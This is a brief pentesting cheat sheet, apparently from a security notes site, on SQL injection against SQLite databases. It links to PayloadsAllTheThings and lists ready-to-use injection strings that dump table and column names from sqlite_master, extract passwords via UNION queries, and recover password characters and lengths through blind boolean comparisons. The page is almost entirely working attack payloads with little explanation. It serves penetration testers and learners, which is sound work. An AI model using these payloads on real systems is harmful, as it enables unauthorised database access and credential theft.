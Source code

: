 # SQLite

{% embed url="https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/SQLite%20Injection/" %}

<pre class="language-sql" data-overflow="wrap" data-full-width="true"><code class="lang-sql">?id='' union select 1,2,username,password,5 from users--
union all select...

# BOOLEAN / BLIND
https://www.sqlite.org/printf.html#substitution_types
https://sqlite.org/lang_expr.html#castexpr
# Extract table names
' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''
# Extract column names
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
# Extract password
' UNION SELECT 1,group_concat(password) FROM users-- -
<strong>
</strong><strong># Compare first letter of the pass with T
</strong>admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -
# Find the password length
admin' AND length((SELECT password from users where username='admin'))==37-- -
# Sometimes it's necessary to escape single quote by adding two in a row
' union select '-1'' union select 1,2,3,4 -- -
</code></pre>
